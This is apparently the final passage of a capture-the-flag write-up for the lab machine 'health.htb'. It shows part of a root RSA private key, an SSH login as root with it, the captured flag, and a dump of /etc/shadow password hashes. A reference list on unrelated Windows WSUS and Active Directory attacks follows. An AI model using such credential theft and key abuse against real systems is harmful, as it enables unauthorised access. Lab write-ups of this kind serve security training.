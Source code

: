 ```bash
zkbVWX3JRDh4vdFOBGB/ImdyamXURQ72Xhr7ODkCgYAOYn6T83Y9nup4mkln0OzT
rti41cO+WeY50nGCdzIxkpRQuF6UEKeELITNqB+2+agDBvVTcVph0Gr6pmnYcRcB
N1ZI4E59+O3Z15VgZ/W+o51+8PC0tXKKWDEmJOsSQb8WYkEJj09NLEoJdyxtNiTD
SsurgFTgjeLzF8ApQNyN4QKBgGBO854QlXP2WYyVGxekpNBNDv7GakctQwrcnU9o
++99iTbr8zXmVtLT6cOr0bVVsKgxCnLUGuuPplbnX5b1qLAHux8XXb+xzySpJcpp
UnRnrnBfCSZdj0X3CcrsyI8bHoblSn0AgbN6z8dzYtrrPmYA4ztAR/xkIP/Mog1a
vmChAoGBAKcW+e5kDO1OekLdfvqYM5sHcA2le5KKsDzzsmboGEA4ULKjwnOXqJEU
6dDHn+VY+LXGCv24IgDN6S78PlcB5acrg6m7OwDyPvXqGrNjvTDEY94BeC/cQbPm
QeA60hw935eFZvx1Fn+mTaFvYZFMRMpmERTWOBZ53GTHjSZQoS3G
-----END RSA PRIVATE KEY-----

➜  health chmod 400 root-id_rsa
➜  health ssh root@health.htb -i root-id_rsa

root@health:~# id && cat root.txt
uid=0(root) gid=0(root) groups=0(root)
b83ed10d472998b7cebf294c7a62719e

root@health:~# cat /etc/shadow
root:$6$CGK4O3ut$hQTwfTrsIVAL2.wTf.mNzkpipITwSLVjqTw5bN2bnXXQi8QU4lnrlnrBMZ87bzMMQEyuxnlLJIMGhKIFjZBFn/:19130:0:99999:7:::
susanne:$6$1e4aezQ4$SdT0K.JpwHFrulyYF6iHx.KItM.AjoMmpyUrk.JSb/hit4YHeAJvrjKVZDEx8M9Hts5UE1FgJY.SC1ia3AvBt.:19129:0:99999:7:::
gogs:$6$PwVrNTkQ$L5f1d4EbQ8d3BtOBhR8fijKDs6Px3x1bFbLHgIauWbdY0IWfYNLacYF0rVWlr6PmnyVza3JsBZunFlE6MF.uB0:19129:0:99999:7:::
```


-----------------------------
## References
- <https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials>
- <https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/>
- <https://labs.nettitude.com/blog/introducing-sharpwsus/>
- <https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#wsus-deployment>

